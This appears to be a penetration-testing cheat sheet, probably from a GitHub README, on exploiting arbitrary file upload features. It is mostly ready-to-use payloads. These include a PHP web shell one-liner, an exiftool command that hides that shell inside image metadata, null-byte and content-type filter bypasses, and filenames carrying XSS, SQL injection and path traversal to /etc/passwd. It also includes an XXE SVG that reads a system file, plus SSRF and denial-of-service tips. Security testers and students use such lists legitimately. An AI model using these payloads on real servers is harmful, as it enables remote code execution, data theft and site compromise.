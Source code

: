 ### Vulnerabilities via Arbitrary File Upload


### Bypasses

#### Null Byte Bypass
##### Make a file image.phpA.png and replace with Null Byte instead of A
```
image.php%00.png
image.php\x00.png
```

#### Content-Type Bypass
```
Content-Type: image/jpeg
```

#### Content-Length Bypass
```
<?php system($_GET['c']);?>
```

#### Magic Number Validation Bypass
##### Use Exiftool and instert malicious code
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['c']);?>' image.jpg
mv image.jpg image.php.jpg
```

### Chain With Other Vulnerabilities

#### XSS(Cross Site Scripting)
```
Filename: "><svg onload=alert(1)>.jpeg
xss.svg -> file contain xss payload inside svg format
```

#### SQL Injection
```
'sleep(10).jpg
```

#### Path Traversal
```
../../logo.png
../../etc/passwd/logo.png
```

#### RCE
```
ImageTragic
```

#### XXE
##### Filename: xxe.svg
##### Content-Type: image/svg+xml
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

#### SSRF
```
Change 'type=file' to 'type=url'
```
#### DoS Attack via Long File Name
```
# This one is a sample
# File name can be larger than this
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbb.jpeg
```

#### Uploaded file not found? Try Path Traversal on filename.
#### Try to brutefore file extension
